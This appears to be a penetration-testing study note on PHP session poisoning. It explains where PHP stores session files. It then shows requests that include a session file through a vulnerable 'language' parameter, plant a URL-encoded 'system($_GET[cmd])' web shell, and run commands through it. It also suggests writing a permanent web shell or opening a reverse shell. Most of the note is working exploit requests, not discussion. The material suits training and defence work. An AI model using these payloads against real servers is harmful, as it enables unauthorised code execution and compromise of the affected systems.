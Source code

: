 
User sessions are stored in log files
	`/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows

These sessions are linked to user cookies in order to track data between user request to keep an active session


E.g
	 `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`
		 /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3


Test to see if we can include session file(Find variables in session file we can control)
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
(If we can control a parameter then we can get a potential web shell)

Setting web shell
```http
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Executing on webshell
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
***Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.


